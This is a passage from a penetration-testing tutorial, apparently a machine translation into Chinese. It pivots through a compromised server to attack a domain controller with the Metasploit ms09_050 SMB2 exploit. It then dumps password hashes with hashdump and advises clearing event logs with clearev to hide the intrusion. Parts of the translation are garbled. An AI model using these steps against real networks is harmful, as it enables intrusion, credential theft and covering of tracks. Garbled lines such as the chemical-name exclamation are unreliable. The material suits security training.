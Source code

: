 Metasploit 还附带了一个`udp_sweep`模块。这一个在枢轴上不能很好地工作，所以一定要使用探针而不是扫描。

![Exploring the inner network](../Images/image00748.jpeg)

上面，我们已经将我们的`RHOSTS`网络设置为`192.168.202.0/24`，并将`LHOST`设置为我们的本地地址`10.100.0.196`。然后我们输入`run`我们得到结果。从返回字符串中，我们可以看到网络上有两台服务器和网关路由器。其中一台服务器就是我们所在的服务器，我们可以看到`192.168.202.3`的内部地址。我们还看到一个新服务器**BO-DC1**，地址为`192.168.202.2`。我们还可以看到，两者都是 LAB1 域的成员。嗯。一个名为 DC1 的服务器。你不认为这可能是域控制器，是吗？

我们知道`exploit exploit/windows/smb/ms09_050_smb2_negotiate_func_index`在第一台服务器上工作，所以很可能在**BO-DC1**上工作。系统以组为单位进行修补，因此漏洞最有可能在其他机器上工作。

让我们有一个域控制器！

如果您不在模块中，请再次加载 ms09-050 漏洞：

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index

```

我们将`RHOST`设定为：

```
set RHOST 192.168.202.2
exploit

```

六羟甲基三聚氰胺六甲醚！什么也没发生，只是坐在那里然后失败了。我们可以运行`sessions -l`并查看是否没有会话。问题在哪里？当我们查看配置时，我们看到我们正在使用`10.100.0.0`网络上的地址。

![Exploring the inner network](../Images/image00749.jpeg)

让我们将其更改为我们正在使用的 pwned 主机，看看会发生什么：

```
set LHOSTS 192.168.202.3
exploit

```

砰！我们进去了！是的，我们借用了**BO-SRV2**上的接口并通过它进行了开发。我们现在有一个`session2`在用米计外壳运行。通过输入`sysinfo`，我们看到这是我们控制的**BO-DC1**。现在，是时候控制整个网络了。我们有域控制器，所以我们真的可以大肆破坏。

现在我们在这台机器上，我们可能会发现它与其他网段是双宿或多宿的。我们可以从这台机器转向第三个或第四个网络。如果新发现的网段中有一个也是多主机的，我们就可以在这个客户机网络中获得一个很好的主机集合。如果你曾经想知道大型网络是如何深入到其内部网络的，这就是为什么。

此外，在使用 pivots 时，如果在收集完所有战利品后，您希望在没有任何痕迹的情况下退出，则最后要运行的命令是**clearev**。这将清除计算机上的所有事件日志。后退时，在每个枢轴点进行此操作，您的路径不太可能是可追踪的。

![Exploring the inner network](../Images/image00750.jpeg)

好的，我们进去了。

首先，让我们收集一些散列：

```
hashdump

```
